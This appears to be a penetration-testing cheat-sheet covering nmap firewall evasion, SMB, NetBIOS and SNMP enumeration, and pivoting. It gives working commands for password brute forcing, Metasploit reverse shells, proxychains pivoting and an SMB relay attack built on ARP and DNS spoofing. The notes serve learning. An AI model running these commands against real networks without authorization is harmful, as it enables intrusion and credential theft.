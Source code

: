 # Network

## Firewall and IDS

**Detect and evasion:**
- `-sA` (scan ACK ping) can be use to detect firewall, the result show `filtered` or `unfiltered`
- `-f` fragment packet. `--mtu` (minimum transfer unit size) custom packet size (`-f --mtu 32` packet with 32 bytes of data)
- `-D` decoy `-D 10.10.21.1,10.10.21.2`
- `g` Change source port `-g 53`
- `--data-length 200`
- `-n` disable DNS resolution
- `--ttl` set time to live time

## SMB and NetBIOS Enum

Both is file sharing service but different technology
- NetBIOS is an API and set of network protocols, provide communication service between device on local network. NetBIOS include:
  - Name services (NetBIOS-NS) ~ 137
  - Datagram services (NetBIOS-DGM) ~ 138
  - Sessions service (NetBIOS-SSN) ~ 139

Tools:
- `nbtscan <target>` Scan network for NetBIOS name
- `nmblookup -A <target>`
- `nmap -sU -p 137 <target>` Check for Name Service of NetBIOS is running (it UDP)
  - `nmap -sU -sV -p 137 <target> --script nb_stat.nse -n` We can try this script to get the service name

**For Smb** 
- `nmap -p445 --script smb-protocols <target>` Check for protocols that target supported 
- `nmap -p445 --script smb-security-mode <target>` Security level that SMB config
- `nmap -p445 --script smb-enum-users.nse <target>` Enum user
- Use `hydra` to crack password
- Or we use `windows/smb/psexec` for connection, set payload to reverse_tcp
- After exploit and have meterpreter, we can `run autoroute -s <target_2_subnet>` to gain access to target 2 that only be connect via target 1
  - Or we can setup `proxychains` and module `socks` of `msf` to access the target from host machine 
  - Proxychanins usually run on port `9050`, see config in `/etc/proxychains4.conf`
  - After that we use `use auxiliary/server/socks_proxy`, `set SRVPORT 9050` `set VERSION 4a ` -> run
  - Now we can access the target 2 from host command with `proxychains nmap <target2> -sT -Pn -sV -p 445`
- shell `net view <target>` view share of target
- `net use D: \\<target>\<share>` Assign disk to share -> `dir D:`

## SNMP

Protocols Use for monitor and manage network devices, like routers, switch, printer, fax, ...
- Application protocols
- Have 3 part:
  - SNMP manager
  - SNMP agent
  - Management infomation base (MIB): Datatbase that define structure of data available through SNMP, each piece of data have unique ID call `OID`
- Port: 161 for SNMP query, 162 for SNMP trap (Infor agent send to Manager)

**Exploit**
- `nmap -sU -p 161 <target>` -> `nmap -sU -p161 --script=snmp-* <target>` collect infor from script 
- Brute for communication string `nmap -sU -p 161 --script=snmp-brute <target>`
  - `snmp-win32-users` enum user on system -> use for hydra later
  - `snmp-processes` enum process run on system
    - `snmp-win32-services` enum services run on system
  - `snmp-interface` enum network interface of system
    - `snmp-netstat` enum net stat
  - `snmp-softwares` enum software install on system
- For more info, use `smbwalk -v 1 -c public <target>`, `-v` is version, `-c` is channel that we detected with `snmp-brute`

## SMB relay

Is a type of attack where attacker intercept SMB traffic, change it and relays it to a legitimate server to gain access. Steps of attack:
- Interception
- Capture authentication
- Relay to a legitimate server
- Gain Access

How to exploit:
- Open `msfconsole` -> search `smb_relay` use reverse_tcp payload 
  - `set srvhost <host_ip>` `set lhost <host_ip>`
  - `set smbhost <target_ip>`
- Setup dns spoofing by `echo "<host_ip> *.<target_domain>" > dns` Ex: `echo "10.10.1.1 *.example.com" > dns`
  - Run `dnsspoof -i eth1 -f dns` `-i` network interface, `-f` file
- Run `arpspoof -i eth1 -t <target_1> <target_2>` and `echo 1 > /proc/sys/net/ipv4/ip_forward` for perform an ARP poisoning attack to intercept and manipulate traffic between a victim and a target system.